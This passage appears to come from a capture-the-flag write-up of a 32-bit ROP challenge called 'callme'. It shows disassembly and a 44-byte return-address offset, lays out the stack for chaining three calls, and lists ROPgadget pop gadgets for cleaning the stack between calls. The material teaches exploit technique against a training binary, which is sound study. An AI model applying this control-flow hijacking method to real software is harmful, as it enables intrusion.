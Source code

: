 ```
 804875e:       e8 7d fd ff ff          call   80484e0 <callme_three@plt>
 8048763:       83 c4 10                add    esp,0x10
 8048766:       83 ec 04                sub    esp,0x4
 8048769:       6a 06                   push   0x6
 804876b:       6a 05                   push   0x5
 804876d:       6a 04                   push   0x4
 804876f:       e8 dc fd ff ff          call   8048550 <callme_two@plt>
 8048774:       83 c4 10                add    esp,0x10
 8048777:       83 ec 04                sub    esp,0x4
 804877a:       6a 06                   push   0x6
 804877c:       6a 05                   push   0x5
 804877e:       6a 04                   push   0x4
 8048780:       e8 6b fd ff ff          call   80484f0 <callme_one@plt>
 8048785:       83 c4 10                add    esp,0x10
 8048788:       83 ec 0c                sub    esp,0xc
 804878b:       6a 01                   push   0x1
 804878d:       e8 7e fd ff ff          call   8048510 <exit@plt>
 8048792:       66 90                   xchg   ax,ax
 8048794:       66 90                   xchg   ax,ax
 8048796:       66 90                   xchg   ax,ax
 8048798:       66 90                   xchg   ax,ax
 804879a:       66 90                   xchg   ax,ax
 804879c:       66 90                   xchg   ax,ax
 804879e:       66 90                   xchg   ax,ax
```
From what we can see, ```usefulFunction``` is there only to show us how arguments are passed to the three functions. Obviously, those are not the arguments we desire, so we will have to provide the arguments ourselves in the input.
Also, the offset to the saved return address is the same, 44 bytes.
In order to call the function with the desired parameters on 32 bits we will need to pass the arguments on the stack like so:
```
PLT entry address of function
junk value to act as saved return address
argument 1
argument 2
argument 3
.....
```

However, this is where we encounter a problem: unlike the previous level, this time we need to chain three function calls, each with its own parameters.
In order to ```ret``` into the next function we need to somehow clean the stack of the arguments to avoid a segmentation fault. This can e achieved with some ```pop``` ROP gadgets, which we are given:
```
voidwalker@Abyss:[callmex86]** ROPgadget --binary=callme32 | grep pop
0x0804867c : add byte ptr [eax], al ; add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
0x080484a8 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804867e : add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
0x080486e4 : add byte ptr [ebx - 0x723603b3], cl ; popal ; cld ; ret
0x080487f5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080484aa : add esp, 8 ; pop ebx ; ret
0x0804867b : daa ; add byte ptr [eax], al ; add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
0x080487f4 : jecxz 0x8048779 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080487f3 : jne 0x80487d8 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080484ab : les ecx, ptr [eax] ; pop ebx ; ret
0x080487f6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080484a6 : mov dh, 0 ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048681 : mov ebp, esp ; pop ebp ; jmp 0x8048610
0x080487f7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x08048683 : pop ebp ; jmp 0x8048610
```